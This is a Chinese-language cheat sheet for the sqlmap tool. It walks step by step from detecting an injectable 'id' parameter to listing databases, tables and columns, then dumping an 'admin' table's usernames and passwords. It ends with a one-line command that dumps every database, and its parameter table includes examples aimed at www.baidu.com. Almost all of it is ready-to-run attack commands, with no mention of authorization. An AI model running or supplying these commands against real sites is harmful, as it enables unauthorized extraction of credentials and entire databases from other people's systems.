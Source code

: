 #### Sqlmap常用命令

1.  **sqlmap.py -u "http://www.XXX.com/index.asp?id=1"**   

    判断id参数是否存在注入：结果中包含 “id” is Vulnerable  字段表示存在注入

    存在注入，下面的步骤才可以执行成功~

2.  sqlmap.py -u "http://www.XXX.com/index.asp?id=1"  --dbs

    列举能列出的所有数据库名

3.  sqlmap.py -u "http://www.XXX.com/index.asp?id=1" --current-db

    列出当前使用的数据库名，假设列出“sqltest”数据库

4.  sqlmap.py -u "http://www.XXX.com/index.asp?id=1"  --is-dba

    判断该注入点是否有管理员权限：返回true  表示是管理员

5.  sqlmap.py -u "http://www.XXX.com/index.asp?id=1" -D "sqltest" --tables

    获取sqltest中的所有表，假设有"admin"表

6.  sqlmap.py -u "http://www.XXX.com/index.asp?id=1" -D "sqltest" -T "admin" --columns

    列举表admin的字段（列名），假设存在"username","password"字段

7.  sqlmap.py -u "http://www.XXX.com/index.asp?id=1" -D "sqltest" -T "admin" -C "username,password" --dump

    下载字段username，password的值，若询问是否破解md5加密，选择no即可

--help，可以查看所有参数，格式：python2 sqlmap.py -u http://www.xxx.com/index.asp?id=1 --[参数] --[参数]

常用参数如下：

| 参数                                     | 含义                                                         | 示例                                                         |
| ---------------------------------------- | ------------------------------------------------------------ | :----------------------------------------------------------- |
| -v                                       | 输出等级，0-6共7级，默认1级                                  | -v 3                                                         |
| --level                                  | 默认等级是1，cookie测试为2，use-agent或refer测试为3，host测试为5 | **sqlmap**.py -u "www.baidu.com/user.php?id=7" --level 3     |
| -u                                       | 指定目标，指定一个URL作为目标，还可以指定端口                | **sqlmap**.py -u "www.baidu.com/user.php?id=7"<br>**sqlmap**.py -url "www.baidu.com:8080/user.php?id=7" |
| --dbs                                    | 列出所有数据库名                                             | sqlmap.py -u "http://127.0.0.1/sqlinject.php?id=1" --dbs     |
| --current-db                             | 列出当前应用程序使用的的数据库                               | sqlmap.py -u "http://127.0.0.1/sqlinject.php?id=1" --current-db |
| --is-dba                                 | 判断注入点是否有管理员权限                                   | sqlmap.py -u "http://127.0.0.1/sqlinject.php?id=1" --is-dba  |
| -D 数据库名 --tables                     | 列出数据库的表名                                             | sqlmap.py -u "http://127.0.0.1/sqlinject.php?id=1" -D "security" --tables |
| -D 数据库名 -T 表名 --columns            | 列出字段名                                                   | sqlmap.py -u "http://127.0.0.1/sqlinject.php?id=1" -D "test" -T "test" --columns |
| -D 数据库名 -T 表名 -C "id,name"　--dump | 列出字段值                                                   | sqlmap.py -u "http://127.0.0.1/sqlinject.php?id=1" -D "test" -T "test" -C "id,name"　--dump |

**一句话脱库：sqlmap.py -u "http://127.0.0.1/sqlinject.php?id=1" -D "数据库名" --dump-all**


